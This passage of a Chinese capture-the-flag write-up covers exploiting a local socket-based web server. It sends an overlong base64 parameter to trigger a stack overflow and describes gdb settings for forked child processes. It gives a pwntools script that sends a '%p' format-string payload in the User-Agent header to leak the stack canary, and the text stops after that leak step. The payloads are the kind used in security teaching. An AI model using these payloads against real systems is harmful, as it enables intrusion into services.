 先测试一下有没有溢出，传入一个超长串的base64编码

```
/?toy=QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQQ==
```

网页直接崩掉，server的启动终端提示`stack smashing`，说明发生溢出了，但有canary，下面找找可以info leak的洞

[![](https://p1.ssl.qhimg.com/t01c664ace041e2eb84.png)](https://p1.ssl.qhimg.com/t01c664ace041e2eb84.png)



## 0x003 Bypass Canary

找到`route`函数，这里有一处fsb可以用于泄漏stack cookie

[![](https://p1.ssl.qhimg.com/t010ec4f032ba29248a.png)](https://p1.ssl.qhimg.com/t010ec4f032ba29248a.png)

下面说说调试方法：

一般的pwn题，直接通过socat起来，要调试的只有一个进程；对于socket服务，当接收到请求，会fork出来一个子进程，该子进程的内存空间布局与父进程一致，同理，这样多次会话泄漏出来的Canary也完全一致。直接在子进程代码中下断点，程序是不会断下的，需要先设置跟随子进程`set follow-fork-mode child`。

先在`route`处下断，设置跟随子进程，运行这段leak脚本

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

def _request(gift,fmt,ctl):
    req = "GET /?toy=`{``}` HTTP/1.1rn".format(gift)
    req += "User-Agent: `{``}`rn".format(fmt)

    s=remote("localhost",1337,level="error")
    s.s(req)
    try:
        if not ctl:
            return re.findall("&lt;br&gt;(.*?)&lt;/small&gt;", s.recvall())[0][10:]
        else:
            return s.irt()
    except EOFError:
        return None
    finally:
        s.close()

def pwn():
    leak = _request(b64e('wooy0ung'),'%p '*200,False).split(' ')

if __name__ == '__main__':
    pwn()
```

